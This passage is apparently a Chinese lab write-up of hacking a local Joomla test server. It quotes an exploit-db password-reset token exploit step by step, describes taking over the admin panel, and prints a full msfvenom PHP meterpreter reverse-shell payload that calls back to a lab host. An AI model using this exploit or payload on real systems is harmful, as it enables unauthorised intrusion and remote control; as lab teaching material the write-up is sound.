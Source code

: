```zsh
http://192.168.56.101:8081/tmp/
http://192.168.56.101:8081/xmlrpc/


[+] Finding common backup files name
[++] Backup files are not found

[+] Finding common log files name
[++] error log is not found

[+] Checking sensitive config.php.x file
[++] Readable config file is found
 config file path : http://192.168.56.101:8081/configuration.php-dist
```

刷出很多 CVE，咱们随便选一个用；

https://www.exploit-db.com/exploits/6234/

教程也有。

```txt
Example :


1. Go to url : target.com/index.php?option=com_user&view=reset&layout=confirm

2. Write into field "token" char ' and Click OK.

3. Write new password for admin

4. Go to url : target.com/administrator/

5. Login admin with new password

# milw0rm.com [2008-08-12]

```

先进入http://192.168.56.101:8081/index.php?option=com_user&view=reset&layout=confirm

跟着 2、3 部走了之后，再去http://192.168.56.101:8081//administrator/

用户名 admin、密码就可以进入后台了、接着在后台反弹 shell

![](http://leiblog.wang/static/image/2020/8/OYdx4c.png)

在这里，然后可以更改页面的 php 文件，替换成 php 反弹 shell 的脚本。

```bash
promote at ~ ❯ msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.56.1 lport=4444 -f raw
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1113 bytes
/*<?php /**/ error_reporting(0); $ip = '192.168.56.1'; $port = 4444; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();
```